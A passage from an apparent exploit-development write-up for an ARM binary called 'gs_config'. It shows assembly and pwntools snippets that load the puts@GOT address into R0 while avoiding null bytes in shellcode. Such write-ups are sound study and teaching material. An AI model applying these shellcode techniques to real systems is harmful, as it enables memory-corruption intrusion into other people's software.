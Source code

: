 We can load arbitrary 4 byte values into R6 byte-by-byte and shift the result to the left by 8 bits as such:

```
mov r6, #0x1            ; R6 == 0x00000001
mov r6, r6, LSL #8      ; R6 == 0x00000100  
add R6, R6, #0x58       ; R6 == 0x00000158
mov r6, r6, LSL #8      ; R6 == 0x00015800
add R6, R6, #0x9c       ; R6 == 0x0001589c


```

In this example we have loaded R6 with the address of puts@GOT, which is 0x1589c:

```
>>> e = ELF("./gs_config",checksec=False)
>>> hex(e.got.puts)
'0x1589c'


```

The most obvious way of moving the R6 value to R0 has the dreaded 0x00 byte:

```
>>> asm('mov r0, r6')
b'\x06\x00\xa0\xe1'


```

We can try adding a benign shift/rotate operation to change the opcodes, however, using a "0" constant changes nothing:

```
>>> asm('mov r0, r6, ror 0')
b'\x06\x00\xa0\xe1'


```

Fortunately, at the time of the crash we have several registers with value 0 already in them. One such register is R8, which allows us to avoid bad bytes:

```
>>> asm('mov r0, r6, ROR r8')
b'v\x08\xa0\xe1'


```

So, connecting all the instructions above we have a way of moving arbitrary values into the R0 register while avoiding bad bytes.

This piece of assembly will load 0x1589c (puts@GOT address) into R0:

```
; assuming r8==0
mov r6, #0x1            ; R6 == 0x00000001
mov r6, r6, LSL #8      ; R6 == 0x00000100  
add R6, R6, #0x58       ; R6 == 0x00000158
mov r6, r6, LSL #8      ; R6 == 0x00015800
add R6, R6, #0x9c       ; R6 == 0x0001589c
mov r0, r6, ROR r8      ; R0 == 0x0001589c


```
